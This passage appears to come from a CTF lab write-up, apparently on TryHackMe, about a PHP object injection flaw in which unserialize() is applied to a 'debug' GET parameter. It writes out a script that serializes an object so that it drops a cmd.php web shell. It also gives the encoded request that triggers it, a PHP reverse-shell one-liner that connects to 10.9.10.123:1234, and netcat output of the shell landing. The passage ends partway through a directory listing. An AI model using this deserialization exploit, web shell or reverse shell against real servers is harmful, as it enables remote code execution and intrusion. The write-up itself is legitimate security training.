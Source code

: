 public function __destruct() {
file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';
  }
}

// Leaving this for now... only for debug purposes... do not touch!

$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application -> SaveMessage();
?>
{% endhighlight %}

Okay, I removed a few spaces and whatnot. So we have a class FormSubmit that creates a file called *message.txt* and puts it in the webroot, and appends stuff to it. Here's what I came up with for an exploit:

{% highlight php %}
<?php

require 'index.php';
$o=new FormSubmit();
$o->form_file='cmd.php';
$o->message='<?php echo system($_GET[\'cmd\']); ?>';
echo serialize($o);
?>
{% endhighlight %}

So I'm creating my own file called *cmd.php* and adding the classic PHP command execute code into it. I run this from the command line via:

``
php -f test.php
``

and the serialized output is:

>O:10:"FormSubmit":2:{s:9:"form_file";s:7:"cmd.php";s:7:"message";s:35:"<?php echo system($_GET['cmd']); ?>";}

Sending this with the debug parameter, e.g. 

``
GET /index.php?debug=O%3a10%3a"FormSubmit"%3a2%3a{s%3a9%3a"form_file"%3bs%3a7%3a"cmd.php"%3bs%3a7%3a"message"%3bs%3a35%3a"<%3fphp+echo+system($_GET['cmd'])%3b+%3f>"%3b} HTTP/1.1
``

Creates the *cmd.php* file, and sending **it** a shell gets us on the box:

``
cmd.php?cmd=php+-r+'$sock%3dfsockopen("10.9.10.123",1234)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b'
``

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/debug]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.151.167] 37988
/bin/sh: 0: cant access tty; job control turned off
$ cd /home
$ ls -lash
total 28K
4.0K drwxr-xr-x  4 root  root  4.0K Mar 10 18:26 .
4.0K drwxr-xr-x 24 root  root  4.0K Feb 28  2019 ..
4.0K drwx------ 17 james james 4.0K Mar 10 18:37 james
 16K drwx------  2 root  root   16K Feb 28  2019 lost+found